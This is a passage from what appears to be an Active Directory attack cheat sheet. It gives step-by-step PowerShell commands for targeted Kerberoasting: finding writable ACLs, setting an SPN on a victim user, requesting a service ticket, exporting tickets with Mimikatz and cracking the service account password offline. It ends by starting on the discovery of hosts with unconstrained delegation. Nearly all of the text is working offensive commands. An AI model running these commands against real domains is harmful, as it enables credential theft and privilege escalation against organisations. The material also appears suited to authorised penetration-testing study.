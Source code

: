 ```
PS C:\> Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

- Check if the user already has a SPN using PowerView_dev

```
PS C:\> Get-DomainUser -Identity <username> | select serviceprincipalname
```

- Check if the user already has a SPN using ActiveDirectory Module

```
PS C:\> Get-ADUser -Identity <username> -Properties ServicePrincipalName | select ServicePrincipalName
```

- Set a SPN for the user (must be unique for the domain) using PowerView_dev

```
PS C:\> Set-DomainObject -Identity <username> -Set @{serviceprincipalname='ops/whatever1'}
```

- Set a SPN for the user (must be unique for the domain) using ActiveDirectory Module

```
PS C:\> Set-ADUser -Identity <username> -ServicePrincipalNames @{Add='ops/whatever1'}
```

- Request a TGS

```
PS C:\> Add-Type -AssemblyName System.IdentityModel 
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"        # Request-SPNTicket from PowerView can be used as well for cracking with John or Hashcat
```

- Display a list of currently cached Kerberos tickets, to confirm the TGS is there

```
PS C:\> klist
```

- Export all tickets using Mimikatz

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::list /export"'
```

- Crack the Service account password

```
PS C:\> python.exe .\tgsrepcrack.py <wordlist> .\4-40a10000-studentadmin@ops~whatever1-TEST.DOMAIN.LOCAL.kirbi
```

### Unconstrained Delegation

- Discover domain computers which have unconstrained delegation enabled using PowerView (must have Administrative privileges on them so we can extract TGT's)

```
PS C:\> Get-NetComputer -UnConstrained        # Domain Controllers will always show up as having unconstrained delegation, so ignore them
```
